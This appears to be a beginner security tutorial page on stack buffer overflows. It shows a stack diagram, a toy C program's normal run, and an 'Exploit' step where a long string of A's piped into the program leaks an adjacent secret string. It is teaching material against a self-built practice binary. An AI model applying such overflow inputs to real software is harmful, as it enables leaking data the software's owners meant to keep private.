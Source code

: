 # Stack 0verflow

### AIM:
To print the secret.

### Example:

<script src="https://gist.github.com/n41n4/496691de46d5202aec5585a722763ffa.js?file=snippet.c"></script>

### Stack

```
+--------------------+
| FUNCTION ARGUMENTS |
+====================+
| RETURN (RET)       |
+--------------------+
| SECRET[]           |
+--------------------+
| KEY[128]           |
+--------------------+ 
```

### Analysis
Execution flow of above example
1. A secret variable is created with some secret value.
2. Then a buffer is initialized with the capacity of 128.
3. User input will be stored in buffer variable using `read` function.
4. Finally User input will be echoed back with welcome using printf.


```bash
┌─[inc0gn1t0@inc0gn1t0-VirtualBox]─[~/Stack0verflow]
└──╼ $./snippet 
Guest
Welcome Guest
```

### Exploit:


```bash

┌─[inc0gn1t0@inc0gn1t0-VirtualBox]─[~/Stack0verflow]
└──╼ $echo "AAAAAAAAAAAAAAAA...........AAAAAAAAA" | ./snippet
Welcome AAAAAAAAAAAAAAAA...........AAAAAAAAASup3r_S3cr37_S7r1n6

```

### Explanation
Here the culprit is `read` function.In this context `read` is used to take input from user.


### Practice
- [Task](Practice-1.html)
